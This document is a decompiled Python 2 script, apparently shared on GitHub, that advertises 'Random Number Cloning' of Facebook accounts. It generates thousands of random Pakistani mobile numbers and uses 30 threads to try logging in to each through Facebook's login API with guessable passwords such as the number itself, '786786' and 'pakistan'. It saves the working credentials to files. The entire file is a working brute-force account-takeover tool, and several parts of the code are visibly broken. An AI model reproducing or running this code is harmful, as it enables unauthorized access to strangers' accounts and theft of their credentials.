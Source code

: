# elite
# Decompiled By Charsi
# Github : https://github.com/Charsimunda
# uncompyle6 version 3.7.4
# Original written By Charsi

import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass
os.system('rm -rf .txt')
for n in range(20000):
    nmbr = random.randint(1111111, 9999999)
    sys.stdout = open('.txt', 'a')
    print nmbr
    sys.stdout.flush()

try:
    import requests
except ImportError:
    os.system('pip2 install mechanize')

try:
    import mechanize
except ImportError:
    os.system('pip2 install request')
    time.sleep(1)
    os.system('python2 .README.md')

from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def exb():
    print '[!] Exit Successfully '
    os.sys.exit()


def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!' + w[random.randint(0, len(w) - 1)] + i

    return cetak(d)


def cetak(b):
    w = 'ahtdzjc'
    for i in w:
        j = w.index(i)
        x = x.replace('!%s' % i, '\x1b[%s;1m' % str(31 + j))

    x += '\x1b[0m'
    x = x.replace('!0', '\x1b[0m')
    sys.stdout.write(x + '\n')


def jalan(x):
    for e in x + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(3.0 / 200)


def tik():
    titik = ['   ', '. ', '.. ', '...', '. ', '.. ', '...', '']
    for o in titik:
        print '\r\x1b[1;96m \x1b[1;96m               Load\x1b[1;96ming\x1b[1;0m\x1b[1;96m' + o,
        sys.stdout.flush()
        time.sleep(0.5)

##### LOGO #####
logo = """
              
    \x1b[1;96m  ────────────────────────────────────────────────────────────────────────────────
    \x1b[1;96m   ─██████████████─██████──██████─██████████████─████████████████───██████████████─
    \x1b[1;96m  ─██▒▒▒▒▒▒▒▒▒▒██─██▒▒██──██▒▒██─██▒▒▒▒▒▒▒▒▒▒██─██▒▒▒▒▒▒▒▒▒▒▒▒██───██▒▒▒▒▒▒▒▒▒▒██─
    \x1b[1;96m  ─██▒▒██████████─██▒▒██──██▒▒██─██▒▒██████▒▒██─██▒▒████████▒▒██───██▒▒██████████─
    \x1b[1;96m  ─██▒▒██─────────██▒▒██──██▒▒██─██▒▒██──██▒▒██─██▒▒██────██▒▒██───██▒▒██─────────
    \x1b[1;96m  ─██▒▒██─────────██▒▒██████▒▒██─██▒▒██████▒▒██─██▒▒████████▒▒██───██▒▒██████████─
    \x1b[1;96m  ─██▒▒██─────────██▒▒▒▒▒▒▒▒▒▒██─██▒▒▒▒▒▒▒▒▒▒██─██▒▒▒▒▒▒▒▒▒▒▒▒██───██▒▒▒▒▒▒▒▒▒▒██─
    \x1b[1;96m  ─██▒▒██─────────██▒▒██████▒▒██─██▒▒██████▒▒██─██▒▒██████▒▒████───██████████▒▒██─
    \x1b[1;96m  ─██▒▒██─────────██▒▒██──██▒▒██─██▒▒██──██▒▒██─██▒▒██──██▒▒██─────────────██▒▒██─
    \x1b[1;96m  ─██▒▒██████████─██▒▒██──██▒▒██─██▒▒██──██▒▒██─██▒▒██──██▒▒██████─██████████▒▒██─
    \x1b[1;96m  ─██▒▒▒▒▒▒▒▒▒▒██─██▒▒██──██▒▒██─██▒▒██──██▒▒██─██▒▒██──██▒▒▒▒▒▒██─██▒▒▒▒▒▒▒▒▒▒██─
    \x1b[1;96m  ─██████████████─██████──██████─██████──██████─██████──██████████─██████████████─
    \x1b[1;96m  ────────────────────────────────────────────────────────────────────────────────
                                                                                                                                                                           
\x1b[1;96m_________________________________________________
\x1b[1;93m\033[1;96mAuthor   :            CHARSI & PENDO
\x1b[1;96m\033[1;96mFacebook :         Charsi & Tami
\x1b[1;96m\033[1;96mGitHub   :             Charsimunda
\x1b[1;97m\033[1;96mVersion  :              CHARSI
\x1b[1;96m__________________________________________________
                                                 """
logo1 = '     \n\n\x1b[4;96mSELECT PAK  SIM CODE \x1b[1;0m\n\x1b[1;96m[1] Jazz    \x1b[1;97m 00,01,02,03,04,05,06,07,08\n\x1b[1;96m[2] Zong    \x1b[1;97m 11,12,13,14,15,16,17\n\x1b[1;96m[3] Warid   \x1b[1;97m 21,22,23,24,25\n\x1b[1;96m[4] Ufone   \x1b[1;97m 30,31,32,33,34,35\n\x1b[1;96m[5] Telenor \x1b[1;97m 40,41,42,43,44,45,46,47\n\n\n\n\x1bx \x1b[1;97m\x1b[1;0m\n'
back = 0
berhasil = []
cekpoint = []
oks = []
id = []
cpb = []

def menu():
    os.system('clear')
    print logo
    print(47*'-')
    print
    jalan ('\x1b[1;96m[1] START Random Number Cloning ')
    print
    print(47*'-')
    action()

def action():
    global cpb
    global oks
    ss = raw_input('\x1b[1;96mselect 1= ')
    if ss == '':
        print '[!] Warning'
        action()
    elif ss == '1':
        tik()
        os.system('clear')
        print logo
        print logo1
        try:
            c = raw_input('\x1b[1;97mCODE : ')
            k = '03'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())

        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()

    elif ss == '0':
        exb()
        login()
    else:
        print '[!] Fill In Correctly'
        action()
    os.system('clear')
    print logo
    jalan ('\x1b[1;97mUse without internet sim.minimize termux and check every 10 minutes  later. airplane mode use every 10 mint.')
    print(47*'-')
    xxx = str(len(id))
    jalan('\x1b[1;97m              TOTAL IDS :\x1b[1;96m ' + xxx)
    print(47*'-')
    def main(arg):
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;96m  [Charsi_Temp_Lock]  ' + k + c + user + '  |  ' + pass1
                okb = open('save/CP.txt', 'a')
                okb.write(k + c + user + pass1 + '\n')
                okb.close()
                oks.append(c + user + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;97m  [Charsi_CP] ' + k + c + user + '  |  ' + pass1
                cps = open('save/CP.txt', 'a')
                cps.write(k + c + user + pass1 + '\n')
                cps.close()
                cpb.append(c + user + pass1)
            else:
                pass2 = k + c + user
                data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                q = json.load(data)
                if 'access_token' in q:
                    print '\x1b[1;96m  [ Charsi_Temp_Lock] ' + k + c + user + '  |  ' + pass2
                    okb = open('save/OK.txt', 'a')
                    okb.write(k + c + user + pass2 + '\n')
                    okb.close()
                    oks.append(c + user + pass2)
                elif 'www.facebook.com' in q['error_msg']:
                    print '\x1b[1;97m  [Charsi_CP] ' + k + c + user + '  |  ' + pass2
                    cps = open('save/CP.txt', 'a')
                    cps.write(k + c + user + pass2 + '\n')
                    cps.close()
                    cpb.append(c + user + pass2)
                else:
                    pass3 = '786786'
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;96m  [Charsi_Temp_Lock]  ' + k + c + user + '  |  ' + pass3
                        okb = open('save/CP.txt', 'a')
                        okb.write(k + c + user + pass3 + '\n')
                        okb.close()
                        oks.append(c + user + pass3)
                    elif 'www.facebook.com' in q['error_msg']:
                        print '\x1b[1;97m  [Charsi_CP] ' + k + c + user + '  |  ' + pass3
                        cps = open('save/CP.txt', 'a')
                        cps.write(k + c + user + pass3 + '\n')
                        cps.close()
                        cpb.append(c + user + pass3)
                    else:
                       pass4 = 'pakistan'
                       data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                       q = json.load(data)
                       if 'access_token' in q:
                        print '\x1b[1;96m  [Charsi_Temp_Lock]  ' + k + c + user + '  |  ' + pass4
                        okb = open('save/CP.txt', 'a')
                        okb.write(k + c + user + pass4 + '\n')
                        okb.close()
                        oks.append(c + user + pass3)
                       elif 'www.facebook.com' in q['error_msg']:
                        print '\x1b[1;97m  [Charsi_CP] ' + k + c + user + '  |  ' + pass4
                        cps = open('save/CP.txt', 'a')
                        cps.write(k + c + user + pass4 + '\n')
                        cps.close()
                        cpb.append(c + user + pass4)
                        
        except:
            pass

    p = ThreadPool(30)
    p.map(main, id)
    print(48*"-")
    print 'Process Has Been Completed ...'
    print 'Total OK : ' + str(len(oks))
    print 'Total CP : ' + str(len(cpb))
    print(47*"-")
    print 'Cloned Accounts Has Been Saved : save/cloned.txt'
    jalan('Note : Cp account Will Open after 10 to 12 days')
    raw_input('\n\x1b[1;97m[\x1b[1;98melite_menu_Back\x1b[1;95m]')
    login()


if __name__ == '__main__':
    menu()

